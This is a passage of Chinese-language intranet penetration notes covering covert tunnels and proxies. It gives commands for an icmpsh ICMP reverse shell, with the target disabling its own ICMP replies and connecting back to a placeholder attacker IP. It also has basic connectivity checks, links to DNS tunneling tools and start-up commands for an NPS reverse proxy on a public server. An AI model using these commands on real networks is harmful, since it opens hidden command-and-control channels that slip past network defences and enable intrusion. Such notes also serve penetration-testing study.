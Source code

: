   ```bash
  pip2 install impacket # 安装依赖
  sudo python2 icmpsh_m.py 攻击机IP 目标机IP
  ```

  目标机上

  ```bash
  sysctl -w net.ipv4.icmp_echo_ignore_all=1  #关闭本地ICMP应答，防止不稳定
  ./icmpsh.exe -t 攻击机IP
  ```

- [【内网学习笔记】6、ICMP隧道工具使用 | TeamsSix](https://teamssix.com/210407-183605.html)



**HTTP**

```bash
curl http://www.baidu.com
```

**DNS**

```bash
nslookup baidu.com
```

隧道搭建

[zfl9/dns2tcp: 将 dns 查询从 udp 转为 tcp 的实用工具 (github.com)](https://github.com/zfl9/dns2tcp)

[vaycore/DNStxt-exp: 一个提供查询 TXT 记录的 DNS 服务利用工具。例如：可配合 Windows 下的 certutil 工具传输小文件（64KB） (github.com)](https://github.com/vaycore/DNStxt-exp)



**TCP**

```bash
Telent ip
```





# 代理搭建

![27cbd536f2e946798278123b5fb9572a~tplv-k3u1fbpfcp-watermark](../../images/27cbd536f2e946798278123b5fb9572atplv-k3u1fbpfcp-watermark.png)



## 反向代理搭建--目标能访问VPS

### Nps

- 服务端（公网服务器）

  ```bash
  sudo ./nps install	#安装
  sudo nps start		#启动
  sudo nps stop		#停止
  sudo nps reload		#服务端配置文件重载
  ```
